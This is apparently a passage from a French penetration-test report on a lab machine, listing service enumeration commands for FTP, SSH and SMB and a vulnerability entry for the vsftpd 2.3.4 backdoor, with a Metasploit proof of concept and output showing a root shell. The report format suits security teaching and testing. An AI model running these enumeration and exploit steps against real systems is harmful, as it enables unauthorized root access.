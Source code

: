 ### 3.3 Énumération des services

#### FTP (Port 21)
```bash
nmap -sV --script ftp-anon 192.168.100.20 -p 21
```
**Résultat** : FTP anonyme activé ✓

#### SSH (Port 22)
```bash
ssh root@192.168.100.20
```
**Résultat** : PermitRootLogin activé

#### SMB (Ports 139, 445)
```bash
enum4linux -a 192.168.100.20
```
**Résultat** : 
- Workgroup: WORKGROUP
- Samba 3.0.20 (vulnérable)
- Partages accessibles sans authentification

---

## 🚨 4. Vulnérabilités Identifiées

### 4.1 Vulnérabilité #1 : vsftpd 2.3.4 Backdoor

| **Attribut** | **Valeur** |
|--------------|------------|
| **Sévérité** | 🔴 **CRITIQUE** |
| **CVSS Score** | 10.0 |
| **CVE** | CVE-2011-2523 |
| **Service** | FTP (port 21) |
| **MITRE ATT&CK** | T1190 - Exploit Public-Facing Application |

**Description** :
La version 2.3.4 de vsftpd contient une backdoor malveillante qui permet d'obtenir un shell root directement en envoyant une séquence spécifique lors de l'authentification.

**Preuve de concept** :
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.20
exploit
```

**Résultat** :
```
[*] Banner: 220 (vsFTPd 2.3.4)
[*] Command shell session 1 opened
[*] uid=0(root) gid=0(root)
```
